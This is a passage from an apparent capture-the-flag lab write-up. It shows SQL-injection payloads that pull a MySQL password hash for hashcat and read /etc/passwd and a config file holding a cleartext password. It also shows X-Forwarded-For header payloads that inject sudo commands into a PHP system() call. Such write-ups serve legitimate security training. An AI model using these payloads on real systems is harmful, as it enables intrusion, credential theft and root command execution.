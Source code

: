 Unfortunately, it turns out that we can’t just feed this hash into [`john`](../Notes/Using%20John%20the%20Ripper.md) or [`hashcat`](../Notes/Using%20Hashcat.md), but need to [massage things a bit first](https://www.percona.com/blog/brute-force-mysql-password-from-a-hash/).

1. First, we use ​`' UNION SELECT CONCAT('$mysql',LEFT(authentication_string,6),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*')) FROM mysql.user WHERE user = 'uhc'`​ to get a string that `hashcat` can handle: ​`$mysql$A$005*66717A5279795F47760843251049172255642146*335A33654F30456873797147634F734A525439797959327258363872667237385178577152795239746232`.
2. Then we run `hashcat -m 7401 -O hash.txt rockyou.txt`.

But, this is going to take a loooong time... So, I tried a few other things:

- There’s 6 users in the `players` table, but none of them work as passwords (or alternate user names).
- `' UNION SELECT LOAD_FILE('/etc/passwd') -- 1` displays the password file, but I can’t access `/etc/shadow`, so it doesn’t look like we’re running as root.
- But we can look at other files, including `/config.php`! And it turns out that there’s a cleartext password there that we can read with `' UNION SELECT LOAD_FILE('/var/www/html/config.php') -- 1` : `uhc-11qual-global-pw`. ​*This works to log in as the `uhc` user!*

The **first flag** is then in the `user.txt` file in `/home/uhc`.

Unfortunately, `uhc` isn’t in the `sudoers` file, and there’s no obviously vulnerably SUID binaries or files with loose permissions.

But...

If you run `' UNION SELECT LOAD_FILE('/var/www/html/firewall.php') -- 1` , you’ll see that the *web server* has sudo access, and uses it to make a call to `iptables` using the value of either the `X-Forwarded-For` or `Remote-Host` headers. And since this call is just a concatenation of the value of this header wrapped in PHP’s `system()` call, that means *I* can insert whatever I want. For example, setting

```http
X-Forwarded-For: 127.0.0.1 -j ACCEPT; sudo ls -la /root ; echo
```

lists the contents of the `/root` directory, revealing the standard `/root/root.txt` flag file. And thus

```http
X-Forwarded-For: 127.0.0.1 -j ACCEPT; sudo cat /root/root.txt ; echo
```

will return the contents of that file.

Which just so happens to be the ​**second flag**​.

(Really, I *should* have used this trick to get both flags...)

**Elapsed Time:** 04:06
